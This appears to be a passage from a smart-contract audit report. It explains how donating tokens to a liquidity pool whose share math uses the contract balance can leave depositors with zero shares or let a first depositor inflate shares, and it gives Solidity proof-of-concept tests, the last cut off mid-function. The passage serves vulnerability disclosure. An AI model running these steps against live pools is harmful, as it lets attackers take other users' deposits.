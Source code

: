 Given that `totalLiquidity` is calculated using the contract's balance a malicious user can donate tokens to manipulate the share calculation.

The first attack can consist of the user donating a small amount of tokens before anyone provides liquidity. When the first user provides liquidity, `totalLiquidity` will be greater than 0 and the share change will be calculated as `(depositShare * amount) / totalLiquidity`. Since `depositShare` is 0, the share change will also be 0, so the user will not receive any shares. The same will happen for all users that provide liquidity after the first one. So every user will lose the tokens they provided.

The second attack, known as the "first depositor inflation attack", can be performed by the first depositor inflating the shares calculation in their favor. This is done by providing 1 wei (minting 1 share) and donating a large amount of tokens. When the next depositor provides liquidity, the share they receive will be less than expected due to the rounding down in the share calculation.

See the proofs of concept for more details.

**Proof of concept**

```solidity
function test_provideMintsZeroShares() public {
    vm.prank(alice);
    WETH.transfer(address(liquidityPoolWETH), 1);

    vm.prank(bob);
    liquidityPoolWETH.provide(1e18);

    assert(liquidityPoolWETH.balanceOf(address(bob)) == 0);
}
```

```solidity
// Victim deposit > attacker donation
function test_firstDepositorInflation_1() public {
    // Alice provides 1 wei and donates 0.5 WETH
    vm.startPrank(alice);
    liquidityPoolWETH.provide(1);
    WETH.transfer(address(liquidityPoolWETH), 0.5e18);
    vm.stopPrank();

    // Bob provides 1 WETH
    // Shares minted = (depositShare * amount) / totalLiquidity = (1 * 1e18) / (0.5e18 + 1) = 1
    vm.prank(bob);
    liquidityPoolWETH.provide(1e18);

    // Both Alice and Bob have 1 share
    assert(liquidityPoolWETH.balanceOf(address(alice)) == 1);
    assert(liquidityPoolWETH.balanceOf(address(bob)) == 1);

    // Alice withdraws 1 share and gets 0.75 WETH
    uint256 aliceWETHBalance = WETH.balanceOf(address(alice));
    vm.prank(alice);
    liquidityPoolWETH.withdraw(1);
    uint256 aliceWETHBalanceIncrease = WETH.balanceOf(address(alice)) - aliceWETHBalance;
    assert(aliceWETHBalanceIncrease == 0.75e18);
}

// Victim deposit < attacker donation
function test_firstDepositorInflation_2() public {
    // Alice provides 1 wei and donates 0.5 WETH
    vm.startPrank(alice);
    liquidityPoolWETH.provide(1);
    WETH.transfer(address(liquidityPoolWETH), 0.5e18);
    vm.stopPrank();

    // Bob provides 0.2 WETH
    // Shares minted = (depositShare * amount) / totalLiquidity = (1 * 0.2e18) / (0.5e18 + 1) = 0
```